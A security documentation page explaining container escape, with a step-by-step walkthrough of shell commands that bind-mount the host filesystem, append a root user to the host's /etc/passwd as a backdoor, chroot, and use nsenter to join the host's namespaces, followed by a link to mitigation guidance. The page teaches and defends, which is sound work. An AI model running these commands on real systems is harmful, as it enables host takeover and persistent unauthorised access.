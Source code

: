 ```yaml
---
sidebar_position: 7
title: "Container Escape"
description: "Understanding container escape vulnerabilities and how attackers break out of containers to compromise the host system."
---
```


# Container Escape

A **container escape** occurs when an attacker exploits vulnerabilities in a containerized environment to **break out of the container** and gain access to the **underlying host system**. This can lead to **privilege escalation, data exfiltration, and full cluster compromise**.

---

## Exploitation Steps: Breaking Out of a Container

An attacker gains access to a misconfigured or vulnerable container and attempts to escape to the host.

### Step 1: Identify the Environment

The attacker checks if the container is running as **privileged** or has access to the host filesystem:

```bash
cat /proc/1/cgroup
ls -la /root
```

If the output reveals unrestricted access, the attacker proceeds to escape.

### Step 2: Mount the Host Filesystem

The attacker attempts to mount the host filesystem inside the container:

```bash
mkdir /mnt/host
mount -o bind / /mnt/host
```

### Step 3: Escalate Privileges

If the container runs as root and `/mnt/host` is accessible, the attacker can create a new root user on the host:

```bash
echo 'attacker:x:0:0::/root:/bin/bash' >> /mnt/host/etc/passwd
```

### Step 4: Gain a Host Shell

The attacker spawns a shell on the host system:

```bash
chroot /mnt/host /bin/bash
```

At this stage, the attacker has modified the host’s filesystem and potentially created a persistent backdoor, but they are still within the container’s **process namespace**, meaning they do not fully control the host yet.

### Step 5: Escape to the Host's Namespaces

To gain full control over the host, the attacker must enter the **host's namespaces**:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid
```

#### **Explanation of the Flags:**

- `--target 1` → Targets **PID 1** (which is `systemd` or `init` on the host).
- `--mount` → Joins the host's **mount namespace**.
- `--uts` → Joins the host's **UTS (hostname) namespace**.
- `--ipc` → Joins the host's **inter-process communication namespace**.
- `--net` → Joins the host's **network namespace**.
- `--pid` → Joins the host's **process namespace**, making `ps aux` show all host processes.

### **Expected Result**

- Running `hostname` should now return **the host’s real name** (e.g., `controlplane`).
- Running `ps aux` should now display **all host processes**.

Once these steps are completed, the attacker has fully escaped the container and can execute arbitrary commands on the host.

---

## Mitigation Steps

To prevent container escape vulnerabilities, follow the security best practices outlined in:

➡ **[Preventing Container Escape](/docs/best_practices/cluster_setup_and_hardening/pod_security/container_escape_mitigation)**

This guide covers techniques such as **disabling privileged containers, restricting host filesystem access, enforcing least privilege principles, and applying security policies** to mitigate container escape risks.
